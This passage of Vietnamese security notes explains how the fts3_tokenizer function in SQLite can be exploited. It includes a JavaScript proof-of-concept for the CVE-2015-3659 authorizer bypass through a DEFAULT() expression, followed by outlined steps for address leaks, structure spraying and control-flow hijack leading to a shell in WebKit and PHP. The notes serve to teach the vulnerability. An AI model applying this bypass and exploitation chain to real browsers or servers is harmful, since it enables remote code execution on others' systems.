 Về **virtual table**, thường **chỉ cho phép FTS3**:
```cpp
int DatabaseAuthorizer::createVTable(const String& tableName, const String& moduleName)
{
    // Chỉ cho phép extension FTS3
    if (!equalLettersIgnoringASCIICase(moduleName, "fts3"))
        return SQLAuthDeny;
}
```

Muốn dùng `fts3_tokenizer()` trong trình duyệt cần **bypass** Authorizer.

---

## 11. CVE-2015-3659 - Bypass Authorizer qua DEFAULT
Dùng biểu thức `DEFAULT(...)` để buộc engine đánh giá một **hàm đặc quyền** ngay cả khi gọi trực tiếp bị chặn:

```js
var db = openDatabase(...);
var sql = "hex(fts3_tokenizer('simple'))";
db.transaction(function(tx) {
  tx.executeSql('DROP TABLE IF EXISTS BAD;');
  tx.executeSql('CREATE TABLE BAD(id, x DEFAULT(' + sql + '));'); // <-- bypass
  tx.executeSql('INSERT INTO BAD(id) VALUES (1);');
  tx.executeSql('SELECT x FROM BAD LIMIT 1;', [], function(tx, results) {
    var val = results.rows.item(0).x;
  });
}, function(err) { log(err.message) });
```

**Ý tưởng**: `DEFAULT` khiến engine **tự đánh giá** biểu thức khi `INSERT`, từ đó chạy hàm vốn **bị chặn** nếu gọi trực tiếp.

---

## 12. `fts3_tokenizer` - thực thi mã trên **trình duyệt**
- SQLite3 được **link tĩnh** trong WebKit, nên `select fts3_tokenizer('simple')` có thể **leak base** của WebKit/SQLite.
- Từ leak đó tính các địa chỉ quan trọng.
- Có thể **spray** cấu trúc `sqlite3_tokenizer_module`, chỉnh callback (`xCreate`) → control-flow hijack.

---

## 13. `fts3_tokenizer` - thực thi mã trong **PHP**
- Trên LAMP, `libphp` và `libsqlite3` thường là **shared libraries**. Từ leak có thể suy ra **memory map**.
- Spray cấu trúc `sqlite3_tokenizer_module` giả; dùng `select fts3_tokenizer('simple', x'...')` để **dereference** con trỏ attacker-controlled.
- Dùng **one-gadget** trong PHP để bật shell.
